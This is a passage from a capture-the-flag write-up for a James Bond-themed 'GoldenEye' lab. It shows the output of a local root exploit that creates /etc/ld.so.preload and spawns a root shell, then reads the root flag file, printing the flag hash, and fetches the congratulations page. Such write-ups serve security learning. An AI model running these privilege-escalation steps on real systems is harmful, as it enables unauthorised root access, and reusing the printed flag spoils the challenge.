 The compilation generates warning message, but non is blocking. Let's run the exploit:

~~~
www-data@ubuntu:/tmp$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
~~~

## #4.5 - What is the root flag?

*Hint: This is located in the root user folder.*

The flag is in `/root/.flag.txt`:

~~~
# cd /root
# ls -la
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo
# cat .flag.txt
Alec told me to place the codes here: 

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/
~~~

Visiting the last URL shows a video with extracts from James Bond, along with a congratulations message:

~~~
$ curl -s http://severnaya-station.com/006-final/xvf7-flag/
<html>
<head>

<link rel="stylesheet" href="index.css">
</head>


<video poster="val.jpg" id="bgvid" playsinline autoplay muted loop>

<source src="key.webm" type="video/webm">


</video>
<div id="golden">
<h1>Flag Captured</h1>
<p>Congrats! ******************************* </p>
<p>You've captured the codes! And stopped Alec Trevelyan from his indestructible vengeance!!!!</p>
<p>****************************************</p>
~~~